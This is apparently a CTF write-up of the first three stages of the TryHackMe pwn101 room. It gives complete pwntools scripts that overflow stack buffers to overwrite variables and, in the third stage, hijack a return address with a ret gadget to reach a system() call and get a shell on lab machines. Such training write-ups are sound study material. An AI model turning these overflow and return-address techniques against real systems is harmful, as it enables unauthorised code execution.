 ```yaml
---
title: THM/pwn101 - writeup, part 1
date: 2023-05-02 17:13:31 +0100
author: farrimwildaxe
categories: [Writeup,THM]
tags: [thm,pwn101,writeup,pwntools,buffer overflow,rop]
img_path: /assets/img/thm/pwn101
published: true
---
```


In this post, we'll be discussing the TryHackMe room known as pwn101. This challenge will test and improve your buffer overflow and ROP chaining skills. By completing this challenge, you will gain valuable experience in identifying vulnerabilities, exploiting them, and ultimately gaining access to a target system. Whether you're a newbie or a skilled hacker, pwn101 is an excellent way to sharpen your skills and gain more knowledge in the field of cybersecurity. Let's explore the specifics of this exciting challenge to discover what it entails.

## pwn101.pwn101

Pwn101 is a series of ten stages that increase in difficulty. However, the first stage, pwn101.pwn101, is relatively easy. As shown in the screenshot below, you only need to provide a long enough string to cause a buffer overflow and modify the integer variable following the buffer:

![pwn101's main() function](pwn101-main.png)

 So, without further ado, here is a pwntools script to accomplish this:

```python
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn101.pwn101")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.100.183", 9001)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'make briyani:')
io.sendline(b"A" * 70)
io.interactive()
```

After running the script, we've got the shell:

![pwn101 shell](pwn101-shell.png)

## pwn102.pwn102

Our goal in the second challenge is to change the values of two variables located after the buffer. These variables are labelled `variable_1` and `variable_2` in the screenshot. We need to set them to `0x00c0ff33` and `0x0000c0d3`to get the shell:

![pwn102's main() function](pwn102-main.png)

To achieve our goal, we must pass a string of sufficient length that overwrites the buffer and variables with "coffee" and "code" values. Remember to consider endianness:

```python
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn102.pwn102")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.100.183", 9002)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'right?')

payload  = b"A" * 104
payload += p32(0x0000c0d3, endian='little')
payload += p32(0x00c0ff33, endian='little')

io.sendline(payload)

io.interactive()
```

Once our payload is ready, we can send it to the server:

![pwn102 shell](pwn102-shell.png)

And again, we've got a shell.

## pwn103.pwn103

The third challenge, pwn103, involves a more complex set of tasks to solve than the previous challenges, but it is still relatively easy. After opening the binary file in Ghidra, you can see that it contains a "switch-case" with multiple functions. It looks like a simple chat application:

![pwn103 main() function](pwn103-main.png)

Let's check what functionality it has. The `announcements()` function prints a few messages and calls `main()`, the same as the `discussion()` and `rules()`. Also, the `bot_cmd()` reads the input and displays a few fake commands.

![pwn103 general() function](pwn103-general.png)

The most interesting for us will be the `general()` function which, despite displaying few messages, also reads the input from the user via `scanf()` without proper checks. But there is one more thing. After examining the symbol tree thoroughly, we have discovered a function named `admins_only()`, which includes a call to the `system()`. By exploiting this and the bug in the `general()` function, remote code execution is possible.

![pwn103 admins_only() function](pwn103-admins_only.png)

Let's write a pwntools script for that:

```jsx
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn103.pwn103")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.57.182", 9003)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'channel:')
io.sendline(b'3')
io.recvuntil(b'pwner]:')

payload  = b"A" * 40
payload += p64(elf.symbols.admins_only)

io.sendline(payload)
io.interactive()
```

We can run the script against the remote machine when it is ready. Let's run it. 

![pwn103 shell](pwn103-shell.png)

The script started but crashed after sending a command to the spawned shell. After looking in GDB, we see that our stack needs to be aligned. So we need to pop one item from the stack. The easiest way is to find a `ret` gadget and use it. We can use the `ROPgadget` tool for that:

![pwn103 ROPgadget tool](pwn103-ropgadget.png)

It found the "ret" instruction at the `0x00401016` address. Let's use it:

```jsx
payload  = b"A" * 40
payload += p64(0x00401016)              # ret, to make stack properly aligned
payload += p64(elf.symbols.admins_only)
```

And here is the result, we've got the shell again.

![pwn103 shell v2](pwn103-shell2.png)

Great job, we've successfully finished this section! Join me in the next part, where we'll tackle the rest of the challenges from this room together.